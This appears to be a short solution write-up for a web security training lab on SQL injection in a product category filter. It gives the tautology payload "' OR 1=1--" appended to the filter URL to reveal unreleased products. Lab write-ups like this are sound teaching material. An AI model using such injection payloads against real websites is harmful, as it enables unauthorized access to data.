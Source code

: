 # Lab's description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

**End goal:** Display one or more unreleased products.

# Solution
Firstly, you go to home page and choose any category.
`https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle`

We will see there are only 3 items; then we modify the link by adding `' OR 1=1--`
`https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--`

After modifying, we can see there are more items added.
